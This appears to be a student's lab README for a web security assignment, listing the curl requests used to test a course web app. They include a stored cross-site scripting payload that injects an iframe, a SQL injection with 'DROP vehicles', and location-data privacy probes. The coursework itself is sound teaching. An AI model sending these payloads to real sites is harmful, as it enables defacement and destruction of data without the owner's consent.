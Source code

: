 Project by Katherine Wadhwani

Correctness and Troubleshooting:
To the best of my understanding, all parts of this project have been implemented correctly. I did, however, find it difficult to understand what I modifications I versus others had made, as the website kept changing.

Collaboration:
I discussed this project with Thomas, Murt, and Dan. I was struggling and they kindly helped explain where I was going wrong. In particular, Thomas bettered my understanding of how to preform a SQL injection. All ideas, however, were my own.

Hours to Complete:
I took about 8 hours to complete the lab.

Note: While we were not particularly asked to show our curl requests for our Security and Privacy Assessment report, I wanted to include them. Putting them in the html document proved difficult, as some were interpreted as script. For these reasons, I have included them here.


<b>Cross-Site Scripting </b>
  - curl -d "username=<script>var b=document.getElementsByTagName('body')[0],i=document.createElement('iframe');i.src='https://www.google.com/embed/the-simpson-s-home-
    interactive';i.style.width='50%';i.style.height='50%';i.frameBorder='0';i.allow='gamepad *';b.insertBefore(i,b.firstChild);</script>&lat=34342.944&lng=943432.32345" 
    -X POST https://jordan-marsh.herokuapp.com/rides
  
<b>SQL Injection</b>  
   - curl -d "username= whatever; DROP vehicles;&lat=34342.944&lng=943432.32345" -X POST https://jordan-marsh.herokuapp.com/update

<b>General Privacy</b>
  - curl -d "username=a&lat=34342.944&lng=943432.32345" -X POST https://jordan-marsh.herokuapp.com/rides
  - https://jordan-marsh.herokuapp.com/vehicle.json?username=J1r5pEAO
  
  
